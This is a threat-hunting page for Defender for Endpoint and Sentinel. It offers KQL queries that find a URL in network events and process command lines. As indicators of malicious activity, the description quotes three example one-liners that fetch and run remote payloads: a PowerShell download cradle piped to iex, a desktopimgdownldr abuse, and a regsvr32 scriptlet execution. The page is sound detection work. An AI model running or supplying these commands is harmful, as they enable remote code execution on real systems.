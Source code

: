 # URL Lookup (Network & Commandline)

## Query Information

#### Description
This query can be used to perform a URL lookup on both the DeviceNetworkEvents as well as the commandline references. This can help in incident investigations to quickly find all the related logs and commandline references of the IP address. The *LookupURL* is used to set a URL on which you want to look for. The query has also a setting that you can change to only show commandline results, thent he line *| where CommandLineReference == true* needs to be uncommented. The *LookupURL* can also be a devicename you want to lookup. 

Some examples below are stated, which will be shown based on the commandline lookup. Remote downloads or executions of files can be an indicator of malicious activity.
```
powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://webserver/payload.ps1')|iex"

set "SYSTEMROOT=C:\Windows\Temp" && cmd /c desktopimgdownldr.exe /lockscreenurl:https://domain.com:8080/file.ext /eventName:desktopimgdownldr

cmd.exe /c echo regsvr32.exe ^/s ^/u ^/i:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1218.010/src/RegSvr32.sct ^scrobj.dll > fakefile.doc:payload.bat
```

#### References
- https://andreafortuna.org/2017/11/27/how-a-malware-can-download-a-remote-payload-and-execute-malicious-code-in-one-line/
- https://www.bleepingcomputer.com/news/security/windows-10-background-image-tool-can-be-abused-to-download-malware/
- https://lolbas-project.github.io/lolbas/Binaries/Cmd/

## Defender For Endpoint
```
// Set the URL you are trying to lookup.
// Lookup in this query is done with a contains, if this results in to many false positives add www. before the rest of the url.
let LookupURL = "test.com";
let SearchWindow = 48h; //Customizable h = hours, d = days
// Collect all network evets to the RemoteIP
let NewtworkEvents = DeviceNetworkEvents
     | where Timestamp > ago(SearchWindow)
     | where RemoteUrl contains LookupURL
     | project Timestamp, DeviceName, ActionType, RemoteIP, RemotePort, RemoteUrl, InitiatingProcessCommandLine, InitiatingProcessAccountSid;
// Collect all commandline references of the URL
let CommandLineReferences = DeviceProcessEvents
     | where Timestamp > ago(SearchWindow)
     | where ProcessCommandLine contains LookupURL
     | project Timestamp, DeviceName, ActionType, FolderPath, ProcessCommandLine, AccountSid;
// Combine results
(union isfuzzy=true
     (NewtworkEvents),
     (CommandLineReferences)
// If you do want to have raw logs remove the summarize below.
// CommandLines and RemoteURLs can both be empty if there is no Commandline reference and a connection is only made to a IP not to a URL.
     | summarize RemoteIPs = make_set(RemoteIP), CommandLines = make_set(ProcessCommandLine), LastMention = arg_max(Timestamp, *) by DeviceName
     // Add filter posibility to alter the search results if you only want to see commandline references. By default it includes both network and commandline references. If you only want to see commandline references uncommment the statment CommandLineReference == true
     | extend CommandLineReference = iff(CommandLines == @'[""]', false, true)
     //| where CommandLineReference == true
     | project-reorder LastMention, DeviceName, RemoteUrl
     | sort by LastMention
)
```
## Sentinel
```
// Set the URL you are trying to lookup.
// Lookup in this query is done with a contains, if this results in to many false positives add www. before the rest of the url.
let LookupURL = "test.com";
let SearchWindow = 48h; //Customizable h = hours, d = days
// Collect all network evets to the RemoteIP
let NewtworkEvents = DeviceNetworkEvents
     | where TimeGenerated > ago(SearchWindow)
     | where RemoteUrl contains LookupURL
     | project TimeGenerated, DeviceName, ActionType, RemoteIP, RemotePort, RemoteUrl, InitiatingProcessCommandLine, InitiatingProcessAccountSid;
// Collect all commandline references of the URL
let CommandLineReferences = DeviceProcessEvents
     | where TimeGenerated > ago(SearchWindow)
     | where ProcessCommandLine contains LookupURL
     | project TimeGenerated, DeviceName, ActionType, FolderPath, ProcessCommandLine, AccountSid;
// Combine results
(union isfuzzy=true
     (NewtworkEvents),
     (CommandLineReferences)
// If you do want to have raw logs remove the summarize below.
// CommandLines and RemoteURLs can both be empty if there is no Commandline reference and a connection is only made to a IP not to a URL.
     | summarize RemoteIPs = make_set(RemoteIP), CommandLines = make_set(ProcessCommandLine), LastMention = arg_max(TimeGenerated, *) by DeviceName
     // Add filter posibility to alter the search results if you only want to see commandline references. By default it includes both network and commandline references. If you only want to see commandline references uncommment the statment CommandLineReference == true
     | extend CommandLineReference = iff(CommandLines == @'[""]', false, true)
     //| where CommandLineReference == true
     | project-reorder LastMention, DeviceName, RemoteUrl
     | sort by LastMention
)
```
